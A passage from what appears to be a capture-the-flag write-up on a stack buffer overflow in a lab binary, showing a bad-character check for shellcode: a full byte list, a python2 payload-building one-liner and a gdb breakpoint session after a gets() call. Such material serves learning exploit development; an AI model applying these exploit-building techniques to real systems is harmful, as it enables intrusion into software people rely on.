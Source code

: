 As you can see, our NOP sled was placed between our initial padding and the EIP placeholder.

## Bad Characters

It's important to note that before we generate our shellcode, we need to ensure that we do not have it include any characters that may be parsed in a different way than we intend it to. There are a few examples of this, such as a null byte `\x00` or a horizontal escape sequence `\x09`.

We can check this by using the below list of characters relative to our current payload.

```
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

This is a total of about 256 characters, so we'll add this to just our initial buffer.

```
└─$ python2 -c 'print "\x42" * (312-256-4) + "\x00\x01\x02\x03\x04\[...snip...]\xfb\xfc\xfd\xfe\xff" + "\x43" * 4' > bad_char_enum.txt
```

We'll set a breakpoint shortly after the `gets()` and then examine the stack after we push our payload to it.

```
(gdb) disas vuln
Dump of assembler code for function vuln:
......
0x08049200 <+72>:    call   0x8049040 <gets@plt>
0x08049205 <+77>:    add    esp,0x10
......
End of assembler dump.
(gdb) break *0x08049205
Breakpoint 1 at 0x8049205
(gdb) set args < bad_char_enum.txt
(gdb) run
Starting program: /home/daz/tech/ctf/ccso_intro_2025/overflow/overflow < bad_char_enum.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter a string:

Breakpoint 1, 0x08049205 in vuln ()
```

Let's then examine the stack:
